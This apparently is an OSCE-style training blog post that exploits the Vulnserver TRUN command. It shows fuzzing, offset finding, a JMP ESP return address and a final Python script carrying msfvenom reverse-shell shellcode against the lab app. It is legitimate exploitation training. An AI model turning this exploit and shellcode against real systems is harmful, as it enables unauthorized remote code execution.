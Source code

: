 :slug: vulnserver-trun/
:date: 2020-06-10
:category: attacks
:subtitle: From zero to shell
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by David Rangel on Unsplash
:description: This post will describe the steps taken to exploit the Vulnserver TRUN command using a direct EIP overwrite strategy.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/4m7gmLNr3M0

= Vulnserver TRUN Exploitation

Vulnserver is the natural next step to follow
after finishing the Offsec `CTP` course.
It's a `VbD` (Vulnerable-by-Design) application designed
to help you sharpen the Windows exploitation skills.
You can download the executable link:https://github.com/stephenbradshaw/vulnserver[here]
along with the source code.
Remember that you must grab the `essfunc.dll` file as well.
However, this post (and the others to come) will try to replicate a
link:../../use-cases/continuous-hacking/[grey box]
scenario that is the most common in real exploitation.
In which we only will have access to the binary,
and we must start doing things like recognizance, enumeration, and fuzzing.

*WARNING:*
Do NOT run `vulnserver.exe` on a sensitive machine or a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options, the default used port will
be *TCP/9999*.

image::vulnserver1.png[vulnserver]

If we type `HELP`, we can see the available commands. The commands commonly
receive a single parameter and will return a simple answer.
In this post, we are going to check the `TRUN` command.

image::trun1.png[trun]

For that, we issue the `TRUN` command with a single parameter and check
the answer.

== Fuzzing Vulnserver

Now that we know that the `TRUN` command receives a single parameter, we can
start fuzzing it.

For that, we'll be using link:https://github.com/guilhermeferreira/spikepp/[Spike],
a protocol fuzzer.
More info on `Spike` can be found link:https://resources.infosecinstitute.com/intro-to-fuzzing/[here].

As we determined before, `TRUN` takes a single parameter. With that knowledge,
we can create the `Spike` script as simple as:

.trun.spk
[source,c]
----
s_string("TRUN ");
s_string_variable("*");
----

Notice that we are using two different `Spike` commands.
The `s_string` command will send an immutable string to the fuzzed protocol
and `s_string_variable` tells `Spike` to mutate that string.

Now we can send the fuzz attack to the victim machine:

image::trun2.png[Running spike]

Look at that: After only 3 iterations, `vulnserver.exe` stopped working,
and it seems that it happened when we sent 5000 bytes of data.
We can see this in `Wireshark`:

image::trun3.png[Wireshark capture]

With that, we can start replicating the crash. For that, we create the
first `PoC` (Proof-of-Concept) file:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

This time, let's attach `vulnserver.exe` to a debugger. I will use
link:https://www.immunityinc.com/products/debugger/[Immunity Debugger]
with link:https://github.com/corelan/mona[mona.py] plugin.

So, let's run the initial exploit and see what happens:

image::trun4.gif[Exploit: take 1]

Great! We can replicate the crash of `Vulnserver` and see what happened.

image::trun5.png[Controlling EIP]

If you look carefully at the image, you can see that the `EIP` register has the
value of `41414141` which is the hex representation of our payload of `A`.
`EIP` points to the next instruction to be executed, so if we can control
`EIP`, we have full control of the execution flow of the whole application.
Beautiful, isn't it?

But remember that we injected 5000 `A`, so we must know the exact offset
on where `EIP` gets overwritten.
To do that, we can create a cyclic pattern of chars that will help us identify
the exact offset that we must inject to the buffer in order to control `EIP`.
We will use a tool from `Metasploit` called `pattern_create.rb`:

.Running pattern_create.rb
[source,console]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit/
$ ./pattern_create.rb -l 5000
----

image::pattern1.png[Cyclic pattern]

We then add that pattern to our exploit, replacing the buffer of `A` with
our pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And we run the exploit again:

image::trun6.gif[Exploit: take 2]

image::trun7.png[Cyclic pattern on EIP]

As you can see, the `EIP` register now holds the value `386F4337`.
We can check the exact offset of that string on our unique cyclic pattern.
To do that, we can use `pattern_offset.rb` from `Metasploit`:

image::pattern2.png[Pattern offset]

Great, it tells us that the `EIP` gets overwritten starting on the *2003*
byte of our buffer. Let's update the exploit to verify that:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    b'B' * 4 +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

In this updated exploit, we will send a buffer of 2003 `A`,
then a single 4 byte string of `B` (whose hex representation is `42`) and
fill the rest of our 5000 buffer with `C`. If the offset is correct, `EIP` will
hold the value of `42424242` which are the four bytes of our `B` buffer:

image::trun8.gif[Correct offset to EIP]

Awesome! We now know the exact structure of the vulnerability,
and we can proceed to exploit it.

== Exploiting

Let's look at the value of the registers at the time of the crash.

image::trun9.png[Registers]

As you can see, three registers point to our injected buffer:
`EAX`, `EBP`, and `ESP`.
`EAX` points at the exact beginning of our injected buffer but includes the
chars `TRUN /.:/`. Those may be translated to harmless `ASM` instructions but
we must not risk our exploitation. However, we have the other register `ESP`
which points directly to our controlled buffer.

Using `!mona findmsp` inside the debugger, we can find this information,
along with the continuous space available for us to inject our shellcode.

.findmsp
[source,console]
----
!mona findmsp
----

image::mona1.png[Mona output]

Note that we have 984 bytes after `ESP` available for us to run anything
we'd want. First, we must search on `vulnserver.exe` and its runtime
dependencies, an instruction that can lead us to execute code starting on
the memory region pointed by `ESP`.

First, let's find the `Vulnserver` runtime dependencies:

image::deps1.png[Runtime dependencies]

It is always a good idea to look for instructions on files that are not part
of the `OS` because the address of those instructions will likely change over
different Windows versions, and that makes the exploit less portable.
Also, a null byte (`0x00`) on the address of the desired instruction
can stop our attack.

`mona.py` can also help us to identify the desired instructions on the desired
modules, by running:

.mona
[source,console]
----
!mona jmp -r esp -cp nonull -o
----

image::esp1.png[JMP ESP instructions]

As you can see, there are several `JMP ESP` instructions we can pick.
We are going to pick the one on `62501205`.
Let's update the exploit and replace the four `B` with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

If everything comes as expected, we will hit that `JMP ESP` instruction that
will lead us to our `C` buffer. Let's put a breakpoint at the
`JMP ESP` instruction and run the exploit:

image::trun10.gif[Performing the JMP ESP]

Great!

All that's left is to include a shellcode in place of the buffer of `C` so can
execute commands on the victim machine.
We will use a reverse shell payload as generated by `msfvenom`:

image::msfvenom1.png[Generating reverse shell]

As a rule of thumb, get used to generate shellcodes without bad chars that
may break the execution flow of our attack, such as null bytes (`0x0`),
line feed (`\r or 0xa`), and carriage return (`\n or 0xd`).

Also, note that our `JMP ESP` led us to our `C` but not exactly at the
beginning, so we must pad the exploit with some `C` chars to make the
payload slide gracefully to the start of our reverse shell.

Let's update the exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

SHELL =  b""
SHELL += b"\xb8\x9e\x3b\xe5\xc4\xda\xcf\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x52\x31\x45\x12\x83\xc5\x04\x03\xdb"
SHELL += b"\x35\x07\x31\x1f\xa1\x45\xba\xdf\x32\x2a\x32\x3a"
SHELL += b"\x03\x6a\x20\x4f\x34\x5a\x22\x1d\xb9\x11\x66\xb5"
SHELL += b"\x4a\x57\xaf\xba\xfb\xd2\x89\xf5\xfc\x4f\xe9\x94"
SHELL += b"\x7e\x92\x3e\x76\xbe\x5d\x33\x77\x87\x80\xbe\x25"
SHELL += b"\x50\xce\x6d\xd9\xd5\x9a\xad\x52\xa5\x0b\xb6\x87"
SHELL += b"\x7e\x2d\x97\x16\xf4\x74\x37\x99\xd9\x0c\x7e\x81"
SHELL += b"\x3e\x28\xc8\x3a\xf4\xc6\xcb\xea\xc4\x27\x67\xd3"
SHELL += b"\xe8\xd5\x79\x14\xce\x05\x0c\x6c\x2c\xbb\x17\xab"
SHELL += b"\x4e\x67\x9d\x2f\xe8\xec\x05\x8b\x08\x20\xd3\x58"
SHELL += b"\x06\x8d\x97\x06\x0b\x10\x7b\x3d\x37\x99\x7a\x91"
SHELL += b"\xb1\xd9\x58\x35\x99\xba\xc1\x6c\x47\x6c\xfd\x6e"
SHELL += b"\x28\xd1\x5b\xe5\xc5\x06\xd6\xa4\x81\xeb\xdb\x56"
SHELL += b"\x52\x64\x6b\x25\x60\x2b\xc7\xa1\xc8\xa4\xc1\x36"
SHELL += b"\x2e\x9f\xb6\xa8\xd1\x20\xc7\xe1\x15\x74\x97\x99"
SHELL += b"\xbc\xf5\x7c\x59\x40\x20\xd2\x09\xee\x9b\x93\xf9"
SHELL += b"\x4e\x4c\x7c\x13\x41\xb3\x9c\x1c\x8b\xdc\x37\xe7"
SHELL += b"\x5c\x23\x6f\xe7\x88\xcb\x72\xe7\xa1\x57\xfa\x01"
SHELL += b"\xab\x77\xaa\x9a\x44\xe1\xf7\x50\xf4\xee\x2d\x1d"
SHELL += b"\x36\x64\xc2\xe2\xf9\x8d\xaf\xf0\x6e\x7e\xfa\xaa"
SHELL += b"\x39\x81\xd0\xc2\xa6\x10\xbf\x12\xa0\x08\x68\x45"
SHELL += b"\xe5\xff\x61\x03\x1b\x59\xd8\x31\xe6\x3f\x23\xf1"
SHELL += b"\x3d\xfc\xaa\xf8\xb0\xb8\x88\xea\x0c\x40\x95\x5e"
SHELL += b"\xc1\x17\x43\x08\xa7\xc1\x25\xe2\x71\xbd\xef\x62"
SHELL += b"\x07\x8d\x2f\xf4\x08\xd8\xd9\x18\xb8\xb5\x9f\x27"
SHELL += b"\x75\x52\x28\x50\x6b\xc2\xd7\x8b\x2f\xe2\x35\x19"
SHELL += b"\x5a\x8b\xe3\xc8\xe7\xd6\x13\x27\x2b\xef\x97\xcd"
SHELL += b"\xd4\x14\x87\xa4\xd1\x51\x0f\x55\xa8\xca\xfa\x59"
SHELL += b"\x1f\xea\x2e"

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * 32 +
    SHELL +
    b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And let's check it:

image::success.gif[Our reverse shell]

Great! We got our shell!

You can download the final exploit link:exploit.py[here]

== Conclusion

This was one of the most straightforward exploits for Vulnserver.
Other commands will pose a little more effort, but fear not;
we will post here how to exploit them successfully.
